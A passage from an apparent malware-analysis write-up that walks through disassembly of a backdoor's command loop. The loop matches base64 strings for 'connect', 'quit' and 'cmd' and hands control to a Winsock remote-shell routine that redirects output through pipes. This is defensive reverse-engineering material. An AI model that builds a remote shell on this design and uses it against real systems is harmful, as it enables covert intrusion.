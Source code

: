 The code loops while the data received start with **Y29ubmVjdA==** ("connect"), and exits if data start with **cXVpdA==** ("quit"):

```
; loop
.text:1000395C      push    ds:b64_connect  ; Str
.text:10003962      call    strlen
.text:10003967      push    eax             ; MaxCount
.text:10003968      lea     eax, [ebp+dl_buffer]
.text:1000396E      push    ds:b64_connect  ; Str
.text:10003974      push    eax             ; Str1
.text:10003975      call    ds:_strnicmp    ; case insensitive secure strings comparison
.text:1000397B      add     esp, 10h
.text:1000397E      test    eax, eax
.text:10003980      jz      loop

; quit
.text:10003986      push    ptr_b64_quit    ; Str
.text:1000398C      call    strlen
.text:10003991      push    eax             ; MaxCount
.text:10003992      lea     eax, [ebp+dl_buffer]
.text:10003998      push    ptr_b64_quit    ; Str
.text:1000399E      push    eax             ; Str1
.text:1000399F      call    ds:_strnicmp
.text:100039A5      add     esp, 10h
.text:100039A8      test    eax, eax
.text:100039AA      jz      short close_socket
```

If data start with **y21k** ("cmd"), the function `0x10003a13` is called:

```
.text:100039B8      lea     eax, [ebp+dl_buffer]
.text:100039BE      push    commands_b64    ; Y21k
.text:100039C4      push    eax             ; Str1
.text:100039C5      call    ds:_strnicmp
.text:100039CB      add     esp, 10h
.text:100039CE      test    eax, eax
.text:100039D0      jnz     loop
.text:100039D6      push    esi
.text:100039D7      call    WinsockShell    ; 0x10003a13
```

### Executing commands with WinSock

Function `0x10003a13` allows the attacker to issue commands remotely. It starts by creating a pipe so `stdout` and `stderr` can be redirected there:

```
.text:10003A75      mov     [ebp+PipeAttributes.nLength], 0Ch
[...]
.text:10003A7D      mov     [ebp+PipeAttributes.lpSecurityDescriptor], ebx ; 0= default SD
.text:10003A80      mov     [ebp+PipeAttributes.bInheritHandle], 1
[...]
.text:10003ABB      lea     eax, [ebp+PipeAttributes]
.text:10003ABE      push    ebx  ; nSize: 0 = default
.text:10003ABF      push    eax
.text:10003AC0      lea     eax, [ebp+hWritePipe]
.text:10003AC3      push    eax
.text:10003AC4      lea     eax, [ebp+hReadPipe]
.text:10003AC7      push    eax 
.text:10003AC8      mov     [ebp+NumberOfBytesRead], ebx
.text:10003ACB      call    ds:CreatePipe
```
